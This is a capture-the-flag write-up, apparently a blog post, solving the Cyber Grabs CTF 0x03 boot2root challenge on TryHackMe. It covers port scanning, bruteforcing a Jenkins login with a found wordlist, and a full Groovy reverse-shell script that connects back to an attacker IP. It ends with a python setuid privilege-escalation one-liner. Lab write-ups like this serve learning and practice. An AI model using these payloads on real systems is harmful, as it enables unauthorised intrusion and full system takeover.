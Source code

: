 ```yaml
---
title: Cyber Grabs CTF 0x03 – boot2root
date: '2022-02-07'
draft: false
authors: ['thebish0p']
tags: ['Cyber Grabs CTF 0x03', 'Jenkins', 'Shell', 'System Access', 'Privilege Escalation']
summary: 'Bruteforce jenkins login page with a wordlist we find leading to system access and proceeding by escalating to root'
---
```


## boot2root

> by MrGrep
>
> Let's Start!!! Alison is a SOC analyst of TheCyberGrabs Pvt Ltd. He got some alerts that someone is trying to access the server but he is not quite sure how that attack is getting executed so he wants to hire some pentesters to check the security can you help alison?
>
> Visit here to play:- [TryHackMe Room](https://tryhackme.com/jr/cybergrabsctf2022)
>
> Flag Format: `cybergrabs{boot2root}`

This challenge was hosted on TryHackMe. We launch an instance and start by running an nmap quick scan on the machine’s IP address to check for open ports:

```
nmap -T4 -A -F 10.10.156.214
```

```
Host is up (0.16s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   closed ftp
80/tcp   open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: CyberGrabs Jr CTF
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
8080/tcp open   http    Jetty 9.4.43.v20210629
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(9.4.43.v20210629)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

We start by browsing port 80 checking common files like `robots.txt` and we can find 2 interesting files:

![robots.txt](/static/images/cyber-grabs-ctf-0x03/robots.png)

As shown below `s3cret` is a wordlist and `confidential` is actually just random data encoded with Base32 with nothing useful for the challenge:

| ![s3cret](/static/images/cyber-grabs-ctf-0x03/s3cret.png) |
| :-------------------------------------------------------: |
|                         _s3cret_                          |

| ![confidential](/static/images/cyber-grabs-ctf-0x03/confidential.png) |
| :-------------------------------------------------------------------: |
|                            _confidential_                             |

| ![confidential decoded](/static/images/cyber-grabs-ctf-0x03/dec_confidential.png) |
| :-------------------------------------------------------------------------------: |
|                               _Base32 decoded data_                               |

We try running several wordlists using dirbuster but we don't find any other directories on port 80.

We proceed by going to port 8080 which had a Jenkins login page.

![Jenkins](/static/images/cyber-grabs-ctf-0x03/jenkins.png)

First idea we had was using the wordlist provided in `s3cret` to bruteforce the login page. Jenkins default username is `admin` so we start by bruteforcing that user. Unfortunetaly that idea didn’t work.

After a lot of trial and error we go back to the challenge description and notice that the name `Alison` is mentioned so we decided to try it as a username and bruteforce it again with the `s3cret` wordlist:

![Bruteforce Burp](/static/images/cyber-grabs-ctf-0x03/burp_bf.png)

We finally found the password `elizabeth1`.

We proceed by logging in to Jenkins:

![Logged in](/static/images/cyber-grabs-ctf-0x03/logged_in.png)

We proceed by going to the script console in order to have a reverse shell on the server as shown below:

```Groovy
String host="10.11.60.43";;
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close()
```

![Script Console](/static/images/cyber-grabs-ctf-0x03/script_console.png)

And now we have a shell:

![First shell](/static/images/cyber-grabs-ctf-0x03/first_shell.png)

We continue by stabilising the shell using `stty` as shown below:

![Stable](/static/images/cyber-grabs-ctf-0x03/stable.png)

And we manage to find the first flag in `/home/mrgrep/user.txt`. A Base32 encoded flag:

![User.txt](/static/images/cyber-grabs-ctf-0x03/user.txt.png)

![Decoded user.txt](/static/images/cyber-grabs-ctf-0x03/decoded_user.txt.png)

For the second part of the challenge, we need to get root access in order to read the `root.txt` file.

We notice that python has setuid capabilities by running `getcap`:

![getcap](/static/images/cyber-grabs-ctf-0x03/getcap.png)

This means that we can use python in order to perform a privilege escalation and get full root access by running `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`:

![Priv Escalation](/static/images/cyber-grabs-ctf-0x03/privesc.png)

Finally, we have root access and we can read the `root.txt` and get the final flag:

![Root](/static/images/cyber-grabs-ctf-0x03/rootflag.png)
